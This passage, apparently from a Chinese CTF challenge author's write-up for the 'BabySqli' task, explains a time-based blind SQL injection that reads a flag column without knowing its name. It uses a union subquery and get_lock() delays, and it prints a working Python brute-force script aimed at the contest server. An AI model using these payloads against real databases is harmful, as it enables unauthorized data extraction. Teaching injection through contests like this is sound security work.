 不可以当前页面直接注入出来 scuctf{}整个字段了，只能盲注一个个跑了

所以我的整体思路是，通过子查询来不知字段名的情况下获得 fffffffl11lgg 的值
表名得自己猜，但 CTF 比赛中，一般都是 flag,user,ctf 之类的

子查询思路：
`https://nosec.org/home/detail/2245.html`

盲注具体方法很多，我 POC 采用的是 get_lock()函数
具体用法如下：
`https://xz.aliyun.com/t/2288`

（吐槽一下协会服务器性能好的一批，正则延迟注入秒回，延迟不了几秒)

但这里第二天发现 or 和 and 被放出来了，当时很惊讶，本打算改来着，但看到到第二天下午为止也没几个人做出来，就不打算改了，就当降低难度了

所以说这道题如果按我原先的出题思路来看的话，的确比较难，毕竟差不多当半个压轴的，但出了问题之后，难度低了很多，细心琢磨做一下的话，还是可以做出来的~

这里贴一下我原先的 poc 脚本，估计现在不可用了，新的 poc 可以看看做出来队伍的或者等我有时间写（最近太忙了~）

```python
import requests
import string

dic = string.digits + string.ascii_letters + "!@#$%^&*()_+{}-="

url = "http://47.96.138.65:45787/?id=1"
session = requests.session()

def flag():
    i = 1
    flag = ""
    while True:
        for j in dic:
            try:
                payoad = "/**/%26%26/**/mid((select/**/`2`/**/from/**/(select/**/1,2,3,4/**/" \
                         "union/**/select/**/*/**/from/**/flag)a/**/limit/**/1,1),{},1)='{}'/**/" \
                         "%26%26/**/get_lock('ddog',5)".format(i, j)
                url_all = url + payoad
                t = session.get(url=url_all, timeout=3).content
                print(t)
                if len(t) != 0:
                    print(("[*]Flag:" + flag).replace("#&+",""))
                    flag = flag + j
            except Exception:
                pass
        i = i + 1


if __name__ == "__main__":
    flag()
```

## 出题人寄语

总而言之，这次我出的题，除了 Sqli 有点小难以外其他两道题难度还是可以的，心态放好仔细做的话，接大多数人还是可以在这三道题拿到 480 分，对于我刚才提到的 BabySqli 的原有思路，大家可以自己搭建环境测试一下做题思路，这两天大家也做题辛苦了哈~
